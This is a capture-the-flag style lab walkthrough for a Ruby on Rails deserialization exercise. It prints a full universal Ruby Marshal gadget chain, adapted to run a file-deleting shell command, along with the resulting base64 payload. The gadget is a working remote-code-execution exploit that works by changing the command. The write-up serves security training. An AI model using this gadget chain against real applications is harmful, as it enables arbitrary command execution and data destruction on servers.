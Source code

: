 Title: Exploiting Ruby deserialization using a documented gadget chain
Level: PRACTITIONER
Desc:  This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework.
To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.
You can log in to your own account using the following credentials: wiener:peter 

Hint: Try searching for "ruby deserialization gadget chain" online. 

# Walkthrough: 

Browse the web to find the Universal Deserialisation Gadget for Ruby 2.x-3.x by vakzz on devcraft.io

Here it is: `https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html`
I needed to change that a little bit and the final version is:

```
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```

Some fighting with decreasing my ruby 3.x to ruby 2.7.8 to run script.
<img width="703" height="519" alt="image" src="https://github.com/user-attachments/assets/3ebe66b6-673b-4908-adae-c2fd0999ed95" />

Finally I did it.
`BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06
OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBp
b286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVh
ZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRl
YnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdl
bTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2Rf
aWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxl
LnR4dAY7DFQ7EjoMcmVzb2x2ZQ==`

<img width="598" height="264" alt="image" src="https://github.com/user-attachments/assets/7e4c5790-052a-42ee-bdaf-f124ec9b9c20" />

After sending encoded string I have my lab completed.

